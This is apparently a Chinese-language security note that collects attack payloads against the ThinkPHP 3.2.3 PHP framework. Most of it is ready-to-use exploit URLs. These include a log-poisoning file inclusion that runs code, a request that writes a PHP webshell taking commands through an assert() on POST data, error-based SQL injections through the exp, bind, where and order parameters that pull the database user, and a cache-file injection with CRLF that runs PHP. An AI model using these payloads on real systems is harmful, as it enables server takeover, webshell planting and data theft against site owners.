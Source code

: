 # tp3
tp3注入总结。


漏洞版本3.2.3，听说这个版本是tp3使用最广泛的版本，但是截止到2021应该已经都升级到3.2.5。         
3.2.5是tp3最后一个版本，修复了下面这些注入漏洞。    

附加了一个缓存的洞，出镜率比较高。其实tp3还有一堆命令执行的可直接看最后的参考文章，写的都不错。 

## 3.2.x RCE

payload
上传具有恶意代码的任何文件到服务器上，直接包含其文件相对或绝对路径即可。
```
例如：http://127.0.0.1/thinkphp/index.php?m=Home&c=Index&a=index&value[_filename]=./[filename]
```

写phpinfo到日志文件
```
http://127.0.0.1/thinkphp/index.php?m=--><?=phpinfo();?>

```

包含日志文件
```
http://127.0.0.1/thinkphp/index.php?m=Home&c=Index&a=index&value[_filename]=./Application/Runtime/Logs/common/21_07_12.log

```

写shell(post里面用数字，字符串会莫名其妙报错)，蚁剑选base64编码
```
GET //index.php?c=<?=file_put_contents('abab.php','<?=assert($_POST[1]);?>');?> 
```



## exp注入
```
$User->field('username,age')->where(array('username'=>$name))->select();
```

直接传数组，第一个参数是exp表达式直接放过。
接收参数如果没有使用I方法，而是直接使用$_GET等接收外部变量，那么这里就有sql注入的问题。   
```
http://tp.test:8888/index.php/home/index/test?name[0]=exp&name[1]=='1' and (extractvalue(1,concat(0x7e,(select user()),0x7e))) #
```

## update注入
```
        $res = $User->where(array('name'=>$name))->save($data);
```
利用I方法获取输入时并没有过滤BIND，后面修过一次过滤了BIND。    
如果直接$_GET等接收外部变量一定存在       
```
http://tp.test:8888/index.php/home/index/test?name[0]=bind&name[1]=0 and (updatexml(1,concat(0x7e,(select user()),0x7e),1))--+
```
## where 注入
```
  	$res = $User->find($id);
```

 传入可控的where条件导致，delete(), select() ，find()方法具有相同问题，也在ThinkPHP3.2.4中被修复    
 ```
http://tp.test:8888/home/index/test?id[where]=(1=1) and (updatexml(1,concat(0x7e,(select user()),0x7e),1))--+
```
## order by 注入

```
res = $User->order($order)->find();
```
order参数可控的场景   
```
http://tp.test:8888/home/index/test?order=updatexml(1,concat(0x7e,(select%20user()),0x7e),1)
```

## 缓存漏洞
在TP5一些版本中也有这个漏洞，但是TP5的入口文件更加安全，这个漏洞并一定能利用。    
```
http://tp.test:8888/home/index/test?name=%0d%0aphpinfo();%0d%0a//   
```
```
0x0d - \r, carrige return 回车
0x0a - \n, new line 换行
Windows 中换行为0d 0a
UNIX 换行为 0a
```

参数名`name`决定泄露缓存文件名，
```
S('name',$name);
```
md5(name)=b068931cc450442b63f5b3d276ea4297，   
文件名则为：b068931cc450442b63f5b3d276ea4297.php，   
默认目录为Application/Runtime/Temp，然后访问我们的php文件   




# 参考



- https://github.com/top-think/thinkphp   
- https://xz.aliyun.com/t/2630
- https://www.freebuf.com/vuls/282906.html
- https://www.anquanke.com/post/id/250537
- https://blog.csdn.net/qq_43697234/article/details/118931542










